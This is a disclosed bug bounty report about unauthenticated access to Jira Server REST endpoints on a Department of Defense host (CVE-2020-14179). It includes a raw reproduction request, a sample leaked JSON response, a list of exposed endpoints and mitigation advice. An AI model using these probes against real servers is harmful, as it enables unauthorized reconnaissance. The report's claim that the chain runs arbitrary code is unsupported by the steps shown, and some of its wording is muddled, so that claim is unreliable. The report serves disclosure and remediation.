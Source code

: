 # [U.S. Air Force] Information disclosure due unauthenticated access to APIs and system browser functions

## Report Details
- **Report ID**: 1822160
- **URL**: https://hackerone.com/reports/1822160
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-01-04T15:20:22.626Z
- **Disclosed**: 2023-01-27T18:40:37.316Z

## Reporter
- **Username**: hackeronanywhere
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
Multiple information exposure vulnerabilites were identified in a Jira Server instance (unauthenticated access to APIs and system browser functions). This report describes a combination of two separate vulnerabilities in two separate services This chain of vulnerabilities allows unauthenticated attacker to run arbitrary code on a server inside the company's internal network. the vulnerable registered as references [JRASERVER-73060](https://jira.atlassian.com/browse/JRASERVER-73060)

## References
https://jira.atlassian.com/browse/JRASERVER-73060
https://nvd.nist.gov/vuln/detail/CVE-2020-14179

## Impact

Unauthorised access and the data should not be visible.
Project categories, resolutions, and usernames are listed even if the API is not authenticated

## System Host(s)
███

## Affected Product(s) and Version(s)
https://██████/rest/menu/latest/admin

## CVE Numbers
CVE-2020-14179

## Steps to Reproduce
1. Navigate visit the target scope is https://████//rest/menu/latest/admin
 1. And now we found a directory is jira sensitive
 1. You can used recon-tool for finding sensitive directory
 1. Lets send a curl request to the **`?maxResults=1000`** endpoint, as shown below. In the request, point the post request to the server address you want to send the request to:

Here's the HTTP Parameter request that the issue:
```
GET /rest/api/2/projectCategory?maxResults=1000 HTTP/1.1
Host: ████████
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Mac OS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Language: en-US,en;q=0.9,fi;q=0.8
```
```js
{
      "self":"https://█████/rest/api/2/projectCategory/10000",
      "id":"10000",
      "description":"Used by the broader DoD/IC for collaborative development.",
      "name":"Community Collaboration"
   }
][
   {
      "key":"admin",
      "link":"https://█████████/secure/project/BrowseProjects.jspa?s=view_projects",
      "label":"Jira administration",
      "tooltip":"",
      "local":true,
      "self":true,
      "applicationType":"jira"
   },
   {
      "key":"admin",
      "link":"https://████████/admin/console.action",
      "label":"Confluence administration",
      "tooltip":"",
      "local":false,
      "self":false,
      "applicationType":"confluence"
   }
```
 * https://█████/rest/menu/latest/admin?maxResults=1000
 * https://██████/rest/api/2/projectCategory?maxResults=1000
 * https://███/rest/api/2/resolution?maxResults=1000

## Suggested Mitigation/Remediation Actions
Anonymous access to endpoints listed below is restricted starting Jira 9.0. On future Jira 8.x releases and all LTS releases it is possible to restrict anonymous access with feature flags. On Jira 8.x to restrict anonymous access to the endpoint you need to disable feature flag aka provide `<feature.flag>`.disabled On Jira 9.0 you need to enable the same feature flag aka provide `<feature.flag>`.enabled

>
You can use given feature flags: 
`/rest/api/2/projectCategory` - (Anonymous access disabled completely) 
`/rest/api/2/resolution` - (Anonymous access blocked only when there is no projects available for anonymous users) 
`/rest/menu/latest/admin` - There is currently no feature flag to disable anonymous access, please check linked ticket in "duplicates by" to track this problem.



## Attachments
No attachments

